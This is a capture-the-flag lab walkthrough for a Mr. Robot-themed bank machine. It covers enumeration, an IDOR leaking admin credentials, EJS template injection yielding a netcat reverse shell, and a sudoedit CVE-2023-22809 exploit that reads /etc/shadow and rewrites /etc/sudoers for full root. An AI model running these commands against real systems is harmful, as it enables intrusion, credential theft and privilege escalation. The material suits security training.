 Yet another Mr. Robot themed challenge. — by ngn


Initial Nmap Enumeration
nmap -A -p- 10.10.179.170 -T5 | tee nmap-enum

The scan reveals two significant open ports: port 22, running SSH, and port 80, hosting an nginx 1.14.0 web server.


Visiting the Page
When visiting the index page of web server we are redirected to cyprusbank.thm, so we add this to our /etc/hosts and then refresh the page.

<target-ip> cyprusbank.thm

We are welcomed with a static page with no useful information. Checked the page source code but nothing useful there as well.


Directory Brute Forcing using Gobuster
gobuster dir -u http://10.10.179.170/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 -o gobuster-enum

We tried using gobuster to brute force directories which can help us see hidden directories but we didn’t find anything.


VHOST Fuzzing using ffuf
ffuf -u http://cyprusbank.thm/ -H “Host:FUZZ.cyprusbank.thm” -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fw 1


We performed a VHOST fuzzing scan using FFuf, which discovered two virtual hosts: www and admin. We then added these entries to our /etc/hosts file and proceeded to visit the pages.

<target-ip> cyprusbank.thm admin.cyprusbank.thm

Initial User Login on Admin Page
After accessing the admin page, we were redirected to a login screen.


We were provided with the following credentials in Task 1:

Name: Olivia Cortez

Password: olivi8

Using these credentials, we successfully logged in, but the user account has limited permissions. We are unable to access the data or view the /settings page.


Web Access
Upon accessing the Messages section, we discovered the Admin Chat. Looking closely at the URL, we noticed a parameter c set to ?c=5. To explore further, we tested changing the parameter value, which potentially exposed an IDOR vulnerability.

By modifying the parameter to ?c=9, we found the credentials for the admin user, Gayle Bev.


Using these credentials, we logged in and gained access to the telephone numbers.


Searching for “Tyrell Wellick,” we located his telephone number.


Additionally, we accessed the settings page, where we could change the customer’s password. Notably, the password was reflected on the page, suggesting a possible vulnerability. Based on this behavior, we suspected the presence of either XSS or SSTI.

Exploitation
Using Burp Suite to intercept the request, we modify the password parameter and observe an error message indicating that EJS (Embedded JavaScript) files are being used.


We researched SSTI payloads specifically for EJS and found a relevant information here. We can use this payload to test for SSTI vulnerabilities.


Encountering errors when I type this line of code on Medium.

Next, we prepare a reverse shell by visiting revshells.com to generate the payload. We set our IP address (tun0) and select a port number (default can be used), choosing ‘nc mkfifo’ as the reverse shell type and encoding it using URL encoding.



Then, we start the listener by running “nc -lvnp 5555” in the terminal.


Next, we copied the reverse shell command, pasted it, and then clicked ‘Send’ to execute it.


We then checked the terminal and confirmed that we received a connection back as the user “web.” The next step was to stabilize the shell.


Navigating to /home/web/, we were able to retrieve the flag user.txt


Privilege Escalation to Root
We begin by listing the available sudo privileges for the current user using the sudo -l command. Additionally, we check the version of sudoedit to identify any potential vulnerabilities. Upon inspection, we discover that the sudo version is vulnerable to CVE-2023-22809. This vulnerability allows us to bypass restrictions and gain the ability to read or edit any file by manipulating the EDITOR variable.


After reviewing the CVE, we can exploit this vulnerability by attempting to open /etc/shadow using vi when sudoedit is invoked. The following commands are used to set the EDITOR variable and verify it:

export EDITOR=”vi — /etc/shadow”
echo $EDITOR


We can now read the /etc/shadow file using vi by executing the following command:

sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm


To exit vi, type :qa

Now, let’s use this vulnerability to attempt reading the root flag.

Set the EDITOR environment variable to access the root file:

export EDITOR=”vi — /root/root.txt”
echo $EDITOR

Then, execute the following to trigger sudoedit:

sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm


Finally, this exploit allows us to successfully view the root flag.


To escalate privileges to root, we’ll attempt to edit the /etc/sudoers file.

Set the editor for sudoedit to open the sudoers file:

export EDITOR=”vi — /etc/sudoers”

echo $EDITOR

sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm

Once in vi, press i to enter insert mode and edit the file.

Remove the following line from the /etc/sudoers file:

web ALL=(root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm

Replace the following line:

web ALL=(root) NOPASSWD: ALL


Now, we can run sudo commands without needing to provide the root password. Use sudo su to switch to the root user.

